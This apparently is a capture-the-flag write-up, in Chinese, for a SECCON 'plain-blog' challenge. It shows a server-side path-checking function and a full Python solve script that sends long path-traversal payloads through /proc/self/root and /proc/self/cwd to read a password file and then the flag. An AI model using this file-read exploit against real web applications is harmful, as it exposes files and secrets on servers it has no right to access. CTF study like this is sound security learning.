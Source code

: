 ```python
    path = resolve_dots(path)
    return path.startswith(directory + '/')

def read_file(path):
    with open(os.path.abspath(path), 'r') as f:
        return f.read()

def contains_word(path, word):
    return os.path.exists(path) and word in read_file(path)

```

`premium` 可以通過讓 Path 長度超過一定數量後讓 `os.path.exists(path)` 壞掉，進而 Shortcut 整個 `contains_word` 的邏輯。所以就可以讓第二關彈出 Flag 不會被擋住。

`index` 則是要想辦法讓 `password` 可以被寫出來，我則是通靈出來一個規則可以無限加長 Path 進而像原本的作法一樣可以 Shortcut `contains_word` 的邏輯。

最後的 Solve Script:

```python
import requests


# Stage 1
what = '//////////../../../../../../../'
r = requests.post(
    "http://plain-blog.int.seccon.games:3000",
    data={
        "page": "./////////////../../../../../../../../../..////////////////////../../../../../../../../../../../../../../../../../../../../..//////////////../../../../../../../../../../../////////////../../../../../../../../../" + what * 1000 + '/proc/self/root/' * 19
         + "/proc/self/cwd/password",
    },
)
print(r.text) # PASSWORD_1daf3acb1033d8924952f0e854dc5871d723a36cb56e711b274c743900b31287

# Stage 2
r = requests.post(
    "http://plain-blog.int.seccon.games:3000/premium",
    data={
        "password": r.text,
        "page": ".////////////////////////../../../../../../.."
        + "/proc/self/root" * 50 + "/proc/self/cwd/flag",
    },
)
print(r.text) # FLAG
```
